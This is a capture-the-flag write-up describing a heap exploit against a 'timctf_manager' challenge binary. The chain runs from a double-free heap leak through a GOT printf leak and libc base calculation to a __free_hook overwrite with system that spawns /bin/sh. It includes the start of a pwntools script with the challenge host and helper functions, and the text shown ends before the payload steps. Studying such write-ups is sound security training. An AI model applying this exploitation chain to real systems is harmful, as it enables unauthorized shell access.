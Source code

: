 The exploit follows the following order:

1. **Leak heap address**  
Leak the heap address using the double free() vulnerability. The address is stored in the "reversing and exploitation" and "crypto" areas in the heap. Viewing the team outputs the leaked heap address.

2. **Leak printf address**  
Using the heap overflow, overwrite the pointer to the "comments" section in the second chunk with the address of `printf` in the `GLOBAL OFFSET TABLE (GOT)`.Viewing the second player outputs the leaked `printf` address.

3. **Calculate libc base**  
Standard ret2libc procedure. Libc base can be calculated using `printf - printf_offset`, where `printf` is the leaked address and `printf_offset` is the address of `printf` in libc. With libc base value, the address of `__free_hook` and `system` can be calculated using `libc_base + system_offset` and `libc_base + __free_hook_offset` respectively.

4. **Overwrite __FREE_HOOK pointer with system**  
Overwrite the pointer to the "comments" section in the second chunk with the address of `__free_hook`. This makes the pointer point to the `__free_hook` instead. `__free_hook` can then be overwritten with the address of `system` by editing the "comments" of the second chunk. Calling free() now calls system() instead.

5. **Write /bin/sh into heap address**
Write the string `/bin/sh\x00` (*0x0068732f6e69622f* in hex) into the leaked heap address. The argument for free() is stored in this address when free() is called. When calling free() on first chunk, system(/bin/sh) is called instead, which executes a shell.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./timctf_manager",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11114,
}

def add(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "1")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def remove(pid):
	sla("0: Exit", "2")
	sla("Enter player id (1-4) ", str(pid))

def edit(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "3")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)
```